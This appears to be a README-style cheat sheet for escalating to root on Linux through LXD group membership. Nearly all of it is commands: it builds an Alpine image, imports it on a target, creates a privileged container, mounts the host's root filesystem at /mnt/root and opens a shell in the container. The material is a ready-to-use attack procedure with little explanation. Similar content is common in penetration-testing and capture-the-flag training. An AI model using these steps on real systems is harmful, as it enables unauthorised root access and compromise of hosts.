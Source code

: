 # LXD-Privesc-CheatSheet

-if you can't find the git here it is for reference

git clone https://github.com/saghul/lxd-alpine-builder.git
                                                                                                                                                                                                                                           
-first you wanna build the LXD image                                                                                                                                                                                                       
                                                                                                                                                                                                                                           
sudo ./build-alpine -a i686                                                                                                                                                                                                                
                                                                                                                                                                                                                                           
-After that is done it will make a gunzip and send that over to the target                                                                                                                                                                 
-Next we will run a slew of commands since we are already in the LXD group                                                                                                                                                                 
-If not you will need to add it to usermod                                                                                                                                                                                                 
-Now we run a slew of commands                                                                                                                                                                                                             
-This makes the LXD image on the target host                                                                                                                                                                                               
                                                                                                                                                                                                                                           
lxc image import alpine-v3.12-i868-20200831_1748.tar.gz --alias temper                                                                                                                                                                     
                                                                                                                                                                                                                                           
-Next we setup the LXD image on local with escalated priv                                                                                                                                                                                  
                                                                                                                                                                                                                                           
lxc init temper hereiam -c security.privileged=true                                                                                                                                                                                        
                                                                                                                                                                                                                                           
-Now you need to add a HD for example sometimes it will be in /mnt/root other times no                                                                                                                                                     
                                                                                                                                                                                                                                           
lxc config device add hereiam host-root disk source=/ path=/mnt/root recursive=true                                                                                                                                                        
                                                                                                                                                                                                                                           
-Lastly we start the LXD                                                                                                                                                                                                                   
                                                                                                                                                                                                                                           
lxc start hereiam                                                                                                                                                                                                                          
lxc exec hereiam /bin/sh    
